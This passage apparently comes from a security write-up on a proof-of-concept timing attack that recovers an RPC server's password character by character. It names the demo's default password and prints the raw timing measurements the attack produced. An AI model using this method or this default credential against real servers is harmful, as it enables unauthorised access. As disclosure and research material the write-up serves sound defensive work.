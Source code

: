 The PoC will connect to the RPC server at localhost port 3000 and start a timing attack. The password for the RPC server in the demo was configured to be the default password, "sha4d3um".

Running this attack we get the following timing measurements:

```
xxxxxxxx 5597 12284058 45131 21301 21302
sxxxxxxx 6631 15098201 48678 21308 21306
sha4xxxx 5628 17235425 50251 21299 21299
sha4d3ux 5559 16028384 50131 21291 21292
xxxxxxxx 5597 16284257 83250 20544 20556
sxxxxxxx 6631 15098201 80577 20439 20440
sha4xxxx 5628 17235425 86464 20420 20418
sha4d3ux 5559 16028384 81984 20402 20398
xxxxxxxx 5597 16284257 110872 18919 18911
sxxxxxxx 4994 15335894 107375 18910 18904
sha4xxxx 4988 19499290 114317 18819 18826
sha4d3ux 5559 16028384 109703 18860 18861
xxxxxxxx 5597 16284257 161286 21434 21448
sxxxxxxx 4994 15335894 154122 21302 21299
sha4xxxx 4988 19499290 171062 21368 21361
sha4d3ux 5518 16028384 166916 21417 21405
xxxxxxxx 5597 16284257 191751 20170 20164
sxxxxxxx 4994 15335894 191131 20035 20036
sha4xxxx 4988 19499290 203505 20045 20047
sha4d3ux 5518 16028384 204616 20106 20107
xxxxxxxx 5597 19858379 268494 22736 22748
sxxxxxxx 4994 19122367 279374 22648 22633
sha4xxxx 4988 19499290 291698 22734 22738
sha4d3ux 5518 16459878 285356 22791 22766
xxxxxxxx 5597 19858379 348697 24689 24690
sxxxxxxx 4994 19122367 350719 24597 24600
sha4xxxx 4988 19499290 356557 24740 24737
sha4d3ux 5518 16459878 351827 24882 24881
xxxxxxxx 5597 19858379 405785 23029 23015
sxxxxxxx 4994 19122367 401538 23139 23134
sha4xxxx 4988 19499290 408120 23071 23074
sha4d3ux 5518 16459878 400275 23075 23076
xxxxxxxx 5597 19858379 478985 22690 22688
sxxxxxxx 4994 22333983 471644 22617 22616
sha4xxxx 4988 19499290 486578 22645 22649
sha4d3ux 5518 16459878 474462 22608 22616
xxxxxxxx 5597 19858379 522386 21715 21712
sxxxxxxx 4956 22333983 512269 21714 21714
sha4xxxx 4988 19499290 526212 21682 21681
sha4d3ux 5518 16459878 509672 21743 21737
xxxxxxxx 5345 19858379 571254 20874 20883
sxxxxxxx 4956 22333983 558876 20813 20824
sha4xxxx 4988 19499290 571377 20892 20884
sha4d3ux 5518 16459878 555496 20863 20856
xxxxxxxx 5345 19858379 604913 20128 20129
sxxxxxxx 4956 22333983 594737 20084 20075
sha4xxxx 4988 19499290 601928 20181 20179
sha4d3ux 5518 16459878 592269 20175 20175
xxxxxxxx 5345 19858379 627982 18456 18455
sxxxxxxx 4956 22333983 620235 18465 18463
sha4xxxx 4988 19499290 623668 18600 18600
sha4d3ux 5518 16459878 616906 18570 18571
xxxxxxxx 5345 19858379 662358 18919 18913
sxxxxxxx 4956 22333983 660423 18910 18910
sha4xxxx 4972 19499290 656159 18917 18911
sha4d3ux 5518 16459878 655406 18815 18814
xxxxxxxx 5345 19858379 701266 22054 22054
sxxxxxxx 4956 22333983 704530 21988 21983
sha4xxxx 4972 19499290 697670 22016 22024
```